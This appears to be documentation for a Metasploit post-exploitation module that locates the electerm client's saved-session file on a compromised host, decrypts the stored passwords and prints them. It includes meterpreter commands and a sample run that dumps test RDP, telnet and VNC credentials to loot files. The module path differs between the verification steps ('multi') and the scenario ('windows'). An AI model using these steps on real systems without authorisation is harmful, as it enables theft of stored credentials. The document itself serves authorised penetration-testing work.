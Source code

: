 ## Vulnerable Application
  electerm is free and open source Terminal/ssh/telnet/serialport/RDP/VNC/sftp client.

  This module will determine if electerm is installed on the target system and, if it is, it will try to
  dump all saved session information from the target. The passwords for these saved sessions will then be decrypted
  where possible.

  Any electerm version on any operating system are supported.

  If it works normally, the connection name, host, username and password saved in the certificate file will be printed

### Installation Steps

  1. Download and run the electerm installer (https://github.com/electerm/electerm/).
  2. Select default installation
  3. Open the software and create a connection
     complete password setting, add the test account password to the certificate.

## Verification Steps

  1. Get a session.
  2. Do: `set session <session number>`
  3. Do: `run post/multi/gather/credentials/electerm`
  4. If the system has saved passwords, they will be printed out.

## Options

 **BOOKMARKS_FILE_PATH**

Specifies the `electerm.bookmarks.nedb` file path for electerm. (eg.
`C:\Users\FireEye\AppData\Roaming\electerm\users\default_user\electerm.bookmarks.nedb`).

## Scenarios

```
meterpreter > run post/windows/gather/credentials/electerm

[*] Gather electerm Passwords
[*] Looking for JSON files in /home/kali-team/.config/electerm/users/default_user/electerm.bookmarks.nedb
[+] electerm electerm.bookmarks.nedb saved to /home/kali-team/.msf4/loot/20240816195518_default_127.0.0.1_electerm.creds_806863.txt
[*] Finished processing /home/kali-team/.config/electerm/users/default_user/electerm.bookmarks.nedb
[+] Passwords stored in: /home/kali-team/.msf4/loot/20240816195518_default_127.0.0.1_host.electerm_421975.txt
[+] electerm Password
=================

Title   Type    Host       Port  Username  Password       Description
-----   ----    ----       ----  --------  --------       -----------
                127.0.0.1  22    ssh       asdasdawdasdw
                127.0.0.1  22    asdas     asdasdas
drp     rdp     127.0.0.1  3389  drp       drppass        rdp test
telnet  telnet  127.0.0.1  23    root      guest          telnet des
vnc     vnc     127.0.0.1  5900  vncuser   vncpass        vnc des
[*] Post module execution completed
meterpreter >
```
